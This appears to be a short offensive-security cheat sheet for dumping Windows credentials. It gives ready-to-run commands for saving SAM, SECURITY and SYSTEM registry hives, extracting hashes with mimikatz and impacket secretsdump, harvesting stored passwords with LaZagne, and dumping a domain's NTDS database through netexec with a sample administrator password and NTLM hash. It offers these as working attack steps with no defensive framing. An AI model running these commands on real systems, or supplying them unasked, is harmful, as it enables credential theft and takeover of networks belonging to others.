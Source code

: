 
# Dumping LSA with mimikatz
```bash
reg save hklm\sam sam.hiv
reg save hklm\security security.hiv
reg save hklm\system system.hiv
./mimikatz64.exe "privilege::debug" "token::elevate" "lsadump::sam sam.hiv security.hiv system.hiv" "exit"

./mimikatz64.exe "lsadump::sam /system:C:\TEMP\SYSTEM /sam:C:\TEMP\SAM" "exit"
./mimikatz64.exe "lsadump::sam sam.hiv security.hiv system.hiv" "exit"
```
-----------------------

# Dumping SAM with impacket
```bash
reg save hklm\sam SAM
reg save hklm\system SYSTEM

# Move both to local with smb or ftp
impacket-secretsdump -sam SAM -system SYSTEM -local
```
-----------------------

# With LaZagne

https://github.com/AlessandroZ/LaZagne
```bash
LaZagne.exe all
```
-----------------------

# Dumping NTDS with admin account
```bash
nxc smb 10.10.10.10 -u Administrator -p Voltaic1992 --ntds
nxc smb 10.10.10.10 -u Administrator -H 369def79d8372419bf6e93364cc93075 --ntds
```

